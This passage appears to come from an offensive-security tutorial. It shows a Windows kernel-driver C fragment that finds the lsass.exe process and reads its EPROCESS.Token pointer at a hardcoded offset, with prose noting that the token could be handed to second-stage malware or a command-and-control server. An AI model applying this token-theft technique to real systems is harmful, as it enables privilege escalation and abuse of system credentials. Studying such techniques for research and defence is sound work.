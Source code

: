 ```c
    }
    
    KdPrintEx((DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
        "[+] Process.ImageFileName: %s\n",
        imageFileName));

    if (_strnicmp(imageFileName, "lsass.exe", 15) != 0) return NULL;

    // EPROCESS.Token at offset EPROCESS+0x4b8
    tokenPtr = (QWORD*)((QWORD)((char*)process + 0x4b8) & ~0xf);

    KdPrintEx((DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
        "[+] Process.Token: %p\n",
        tokenPtr));

    return tokenPtr;
}
```

This script loops through every process until `lsass.exe` is found. It takes the LSASS token and returns it for further use. 

In this code, we access the token's address from the EPROCESS structure's `EX_FAST_REF` field in one statement, which in many ways summarizes the debugging we did earlier:

```c
    // EPROCESS.Token at offset EPROCESS+0x4b8
    tokenPtr = (QWORD*)((QWORD)((char*)process + 0x4b8) & ~0xf);
```

In a real-world campaign, you could give this token to a second-stage malware or command-and-control server for further system abuse.

The big note here is that we are basically accessing `EPROCESS.Token`. Because we have some insight into its data type (`EX_FAST_REF`), we know that the final bits could contain superfluous data. Because we have some insight into token address alignment, we also know that we can safely drop them (`& ~0xf`).